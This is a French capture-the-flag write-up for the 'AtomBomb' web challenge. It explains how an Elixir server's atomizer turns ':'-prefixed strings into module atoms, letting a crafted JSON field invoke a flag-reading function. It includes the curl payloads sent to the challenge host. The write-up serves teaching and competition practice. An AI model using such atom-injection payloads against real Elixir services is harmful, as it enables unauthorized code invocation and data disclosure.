 # AtomBomb

## Description de l’épreuve

Le challenge "AtomBomb" est une épreuve de type web/service où l’on interagit avec un serveur écrit en Elixir. Le point de départ était un service HTTP qui acceptait un JSON en POST sur une route /bomb_impacts, censé contenir des informations sur une bombe (altitude, type d’explosion, puissance, etc.). Le but était de déclencher une exécution inattendue ou une erreur du serveur afin de récupérer un flag.

Contrairement aux services REST classiques, ce backend repose sur Elixir (et Phoenix), un framework fonctionnel. Le nom de l’épreuve et certains comportements du serveur suggéraient une vulnérabilité liée aux atoms, une structure de données particulière à Elixir.

## Analyse des artefacts et identification des indices

Le serveur attendait un objet JSON avec une clé ``impact`` contenant les détails d’une bombe. Par exemple :
```json
{
  "impact": {
    "bomb": {
      "location": "florida",
      "altitude": "low_altitude",
      "power": 363,
      "explosion_type": 4
    }
  }
}
```

Une tentative de fuzzing a révélé que certaines erreurs côté serveur faisaient référence à des atoms inconnus, ce qui a mis la puce à l’oreille : dans Elixir, la fonction ``String.to_existing_atom/1`` ne crée pas de nouvel atom mais échoue si l’atom n’existe pas déjà. Cela ouvre la voie à un crash contrôlé ou même à une exécution de code si d'autres modules sont appelés dynamiquement.

Le code source du backend a confirmé cette intuition. Dans le contrôleur :

```elixir
defmodule AtomBomb.PageController do
# (...)
  def get_bomb_impacts(conn, params) do
    params = AtomBomb.atomizer(params)
    danger_message = AtomBomb.calculate_bomb_danger_level(params.impact.bomb)
    render(conn, :danger_level, danger_message: danger_message)
  end
end
```

La ligne vulnérable est :
``params = AtomBomb.atomizer(params)``

Elle appelle la fonction ``atomizer/1`` définie dans le module AtomBomb, dont voici le passage critique :

```elixir
def atomizer(params) when is_binary(params) do
  if String.at(params, 0) == ":" do
    atom_string = String.slice(params, 1..-1//1)
    case string_to_atom(atom_string) do
      {:ok, val} -> val
      :error -> nil
    end
  else
    params
  end
end
```

Cette fonction convertit toute chaîne commençant par ``:`` en un atom Elixir existant. Si ce champ correspond à un nom de module valide (par exemple ``":Elixir.AtomBomb"``), il devient littéralement l’atom ``Elixir.AtomBomb``.
<br>
Ensuite, dans une autre partie du code, si ce champ est utilisé dans un ``apply/3`` (par exemple ``apply(mod, :bomb, [])``), cela permet d'exécuter n’importe quelle fonction ``bomb/0`` d’un module existant. Le module ``AtomBomb`` inclut justement une telle fonction :

```elixir
def bomb() do
  flag = case File.read("flag.txt") do
    {:ok, flag} -> flag
    {:error, _} -> "bctf{REDACTED}"
  end
  "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with #{flag}"
end
```

Et donc on obtiendrait:
`` danger_message = AtomBomb.calculate_bomb_danger_level(Elixir.AtomBomb.bomb)``

Ensuite, un test avec un payload du type :
```json
{
  "impact": ":Elixir.AtomBomb"
}
```
nous donne le flag.

## Recherches effectuées

### Documentation officielle : <br> https://hexdocs.pm/elixir/String.html#to_existing_atom/1


### Résumé utile :

* ``String.to_existing_atom("foo")`` échoue si ``:foo`` n'existe pas.

* Les atoms ne sont pas garbage-collected et peuvent faire planter l'application si on en crée trop (atom leak).

* Certaines fonctions essaient de convertir dynamiquement des chaînes en atoms pour appeler des modules/fonctions, c’est là qu’on peut injecter quelque chose de spécial.

## Tentatives et actions mises en œuvre

1. Envoi de payloads valides (structure correcte, sans injection) → réponses standards.

2. Envoi de chaînes invalides dans les clés ou valeurs → erreurs mais sans flag.

3. Hypothèse sur l’usage de to_existing_atom → tests avec valeurs "piégées".

4. Injection de ":Elixir.AtomBomb" dans le champ impact → déclenchement du flag.

## CWE associées

* **CWE-138: Improper Neutralization of Special Elements** — Usage dangereux de fonctions de conversion type eval, to_atom, etc.

* **CWE-502: Deserialization of Untrusted Data** — Même si ce n'est pas de la désérialisation au sens strict, il s’agit d’un traitement non-sécurisé de données entrantes.

## Flag obtenu

``bctf{n0w_w3_ar3_a1l_d3ad_:(_8cd12c17102ac269}``

Ce flag souligne le cœur du problème : l’usage non-sécurisé de la fonction ``String.to_atom`` ou ``String.to_existing_atom``.

## Code des exploits et payloads

```sh
curl -X POST http://localhost:6888/bomb_impacts \
  -H "Content-Type: application/json" \
  --data '{"impact": ":Elixir.AtomBomb"}'
```
```sh
curl -X POST https://atom-bomb.atreides.b01lersc.tf/bomb_impacts \
  -H "Content-Type: application/json" \
  --data '{"impact": ":Elixir.AtomBomb"}'
```

Ce simple payload suffit à déclencher la réponse contenant le flag si le backend tente de convertir ce champ en atom et l’évalue ensuite.

